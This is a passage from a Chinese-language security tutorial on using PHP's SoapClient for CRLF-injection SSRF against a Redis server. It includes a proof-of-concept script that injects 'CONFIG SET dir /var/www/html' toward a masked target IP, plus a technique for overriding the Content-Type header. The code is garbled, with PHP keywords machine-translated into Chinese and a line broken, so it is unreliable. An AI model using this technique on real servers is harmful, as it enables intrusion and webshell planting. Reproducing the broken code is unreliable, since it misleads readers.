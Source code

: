 `执行代码后，如下图所示，成功在HTTP头中插入了一个我们自定义的cookie：`

`![]()`

`可以再去drops回顾一下如何通过HTTP协议去攻击Redis的：Trying to hack Redis via HTTP requests`

`如下测试代码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10  
    

|

    
    
      
    $target = 'http://47.xxx.xxx.72:6379/' ;   
    $poc = "CONFIG SET 目录 /var/www/html" ;   
    $a = new SoapClient( null , array ( 'location' => $target , 'uri' => 'hello^^' . $poc . '^^hello' ));   
    $b = 序列化( $a );   
    $b = str_replace( '^^' , "\n\r" , $b );   
    回声 $b ;  
    $b );   
    $c -> a();    // 随便调用对象中不存在的方法,触发__call方法进行ssrf   
    ?>  
      
  
---|---  
  
`  
`

`执行代码后，如下图所示，成功插入了Redis命令：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084247.png)`

`这样我们就可以利用HTTP协议去攻击Redis了。`

`对于如何发送POST的数据包，这里面还有一个坑，就是`Content-Type`的设置，因为我们要提交的是POST数据，所以`Content-
Type`的值我们要设置为`application/x-www-form-urlencoded`，如何这里修改`Content-
Type`的值呢？由于`Content-Type`在`User-Agent`的下面，所以我们可以通过`SoapClient`来设置`User-
Agent`，将原来的`Content-Type`挤压下去，从而再插入一个新的`Content-Type`。`
